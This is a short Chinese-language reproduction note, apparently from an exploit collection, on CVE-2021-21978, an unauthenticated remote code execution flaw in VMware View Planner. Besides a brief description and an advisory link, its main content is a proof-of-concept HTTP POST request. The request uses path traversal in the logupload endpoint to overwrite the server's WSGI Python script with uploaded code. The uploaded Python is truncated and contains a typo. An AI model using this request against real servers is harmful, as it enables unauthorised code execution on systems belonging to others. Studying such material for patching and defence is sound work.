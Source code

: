 # VMware View Planner 未授权RCE CVE-2021-21978

## 漏洞描述

输入验证不正确以及缺少授权会导致在logupload Web应用程序中上传任意文件。具有对View Planner Harness的网络访问权限未经授权的攻击者可以上传并执行特制文件，从而导致在logupload容器中远程执行代码。

参考链接：

- https://www.vmware.com/security/advisories/VMSA-2021-0003.html

## 漏洞复现

poc：

```
POST /logupload?logMetaData={"itrLogPath":"../../../../../../etc/httpd/html/wsgi_log_upload","logFileType":"log_upload_wsgi.py","workloadID":"2"}

Accept-Encoding:gzip,deflate
Content-Type:multipart/form-data;boundary=---WebKitFormBoundaryH8GoragzRFVTw1VD


------WebKitFormBoundaryH8GoragzRFVTw1VD
Content-Disposition:form-data;name="logfile";filename=""
Content-Type:text/plain

#! /usr/bin/env python3
import cgi
import os,sys
import logging
import jsom

....
```

![image-20221207141859357](images/image-20221207141859357.png)